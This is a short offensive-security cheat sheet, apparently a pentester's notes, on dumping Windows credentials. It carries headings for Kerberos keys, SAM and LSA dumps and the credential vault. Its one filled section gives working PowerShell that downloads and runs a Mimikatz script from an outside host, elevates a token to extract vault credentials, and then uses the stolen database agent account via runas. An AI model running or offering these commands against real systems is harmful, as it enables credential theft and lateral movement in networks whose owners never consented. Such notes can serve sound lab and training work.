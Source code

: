 # eKeys > [[Pass the Ticket . OverPass the Hash]]


# SamDump (Local System)> [[Pass the Hash]]


# LSA Dump (Domain Cached) 


# Cred Vault > Scheduler Task 

Database agent account credentials extracted from credential vault
```powershell
PS > iex (iwr http://172.16.100.1/Invoke-Mimi.ps1 -UseBasicParsing)

PS > Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'

PS > runas /netonly /user:tech\databaseagent powershell.exe
```
